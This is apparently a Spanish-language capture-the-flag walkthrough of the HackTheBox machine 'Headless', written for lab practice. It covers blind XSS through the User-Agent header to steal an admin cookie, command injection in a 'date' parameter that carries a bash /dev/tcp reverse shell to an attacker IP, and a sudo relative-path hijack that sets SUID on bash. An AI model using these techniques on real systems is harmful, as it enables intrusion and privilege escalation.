








# Headless — HackTheBox

| Campo      | Detalle                                        |
|------------|------------------------------------------------|
| Plataforma | HackTheBox                                     |
| Dificultad | Easy                                           |
| SO         | Linux                                          |
| Técnicas   | Blind XSS, Command Injection, Sudo Path Hijack |

---

## 1. Reconocimiento

```bash
nmap -sC -sV -oN nmap_headless 10.10.11.8
```

| Puerto   | Servicio                  |
|----------|---------------------------|
| 22/tcp   | SSH (OpenSSH)             |
| 5000/tcp | HTTP (Werkzeug / Python)  |

La superficie de ataque se reduce a la aplicación web en el puerto 5000.



---

## 2. Análisis de la Aplicación Web

Al explorar el puerto `5000` encontramos una aplicación con un formulario de soporte en `/support`. Al intentar inyectar etiquetas HTML básicas en los campos del formulario, el WAF detectó el intento y mostró una página de error: **"Hacking Attempt Detected"**.

**Hallazgo clave:** la página de error del WAF refleja el contenido de la cabecera `User-Agent` sin sanitizar. Si el administrador revisa estos logs desde su panel, cualquier JavaScript inyectado en el `User-Agent` se ejecutará en su navegador — vector de **Blind XSS**.


---

## 3. Explotación — Blind XSS para robar la cookie de administrador

Inyectamos el siguiente payload en la cabecera `User-Agent` mediante Caido:

```http
User-Agent: ">
```

Levantamos un servidor HTTP en Python para recibir la petición:

```bash
python3 -m http.server 80
```

Cuando el bot del administrador procesó el log con nuestro payload, el JavaScript se ejecutó en su navegador y envió su cookie a nuestro servidor.

**Cookie capturada:** `is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0`




---

## 4. Acceso al Panel Admin — Command Injection (RCE)

Con la cookie de administrador accedimos al panel en `/dashboard`. Este panel expone una funcionalidad para generar informes del sistema mediante un parámetro `date`.

**Vulnerabilidad:** el parámetro `date` pasa el valor directamente a una llamada del sistema sin sanitizar, permitiendo inyección de comandos mediante backticks.

Confirmamos el RCE midiendo el tiempo de respuesta:

```
date=`sleep 5`
```

El servidor tardó exactamente 5 segundos. RCE confirmado.

**Reverse shell:**

```bash
# Listener en el atacante
nc -lvnp 4444

# Payload
date=`bash -c 'bash -i >& /dev/tcp/10.10.16.115/4444 0>&1'`
```





---

## 5. Escalada de Privilegios — Relative Path Hijacking en sudo

```bash
sudo -l
```

El usuario `dvir` puede ejecutar `/usr/bin/syscheck` como root **sin contraseña**.

**Análisis de `/usr/bin/syscheck`:** el script comprueba si un servicio está activo y, si no lo está, llama a `./initdb.sh` con una **ruta relativa**. Buscará ese archivo en el directorio de trabajo actual — si controlamos ese directorio, controlamos lo que ejecuta root.

**Explotación:**

```bash
# Crear initdb.sh malicioso en el directorio actual
echo 'chmod u+s /bin/bash' > initdb.sh
chmod +x initdb.sh

# Ejecutar syscheck como root
sudo /usr/bin/syscheck

# bash tiene ahora el bit SUID — abrir shell como root
bash -p
```



